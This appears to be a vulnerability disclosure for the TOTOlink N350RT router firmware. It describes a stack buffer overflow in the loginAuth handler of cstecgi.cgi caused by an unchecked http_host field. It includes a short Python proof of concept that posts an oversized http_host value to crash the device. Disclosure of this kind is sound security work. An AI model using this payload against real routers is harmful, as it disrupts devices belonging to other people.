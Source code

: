 # TOTOlink N350RT(V9.3.5u.6139_B20201216) router has buffer overflow vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/206/ids/36.html

**This product is on sale**: https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/206.html
## Affected Version
V9.3.5u.6139_B20201216
## Vulnerability Analysis
The following image displays the code for a stack overflow vulnerability in the `sub_421768` function of `cstecgi.cgi`, which is the handler of `loginAuth`. The value of `http_host` will be copy to `str_5` which is a local variable. Due to the lack of length validation by the developer on `http_host`, sending an overly long message by the attacker will eventually cause a stack overflow in the program.
![Vulnerability](./code.png)
![buffer](./buffer.png)
## POC
```python
import requests

def poc():
    payload = """{"username":"admin","password":"password","http_host":" """
    payload += "A"*0x150
    payload += """","verify":"0","flag":"0","topicurl":"loginAuth"}"""
    print(payload)
    requests.post('http://192.168.5.12/cgi-bin/cstecgi.cgi', data=payload)
poc()
```
A SIGSEGV is an error(signal) caused by an invalid memory reference.
![fault](bof.png)